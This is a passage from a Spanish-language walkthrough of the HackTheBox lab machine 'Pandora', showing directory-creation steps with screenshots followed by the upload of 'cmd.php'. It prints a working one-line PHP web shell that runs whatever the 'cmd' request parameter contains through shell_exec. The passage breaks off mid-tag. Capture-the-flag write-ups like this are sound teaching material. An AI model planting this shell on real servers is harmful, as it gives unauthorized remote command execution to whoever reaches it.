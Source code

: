 - Creamos un nuevo directorio.

<p align="center">
<img src="/assets/hackthebox/img/machines/easy/pandora/12.png">
</p>

- Vemos que esta en la ruta `images`.

<p align="center">
<img src="/assets/hackthebox/img/machines/easy/pandora/13.png">
</p>

- Vamos a subir un `cmd.php`.

```bash
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

<p align="center">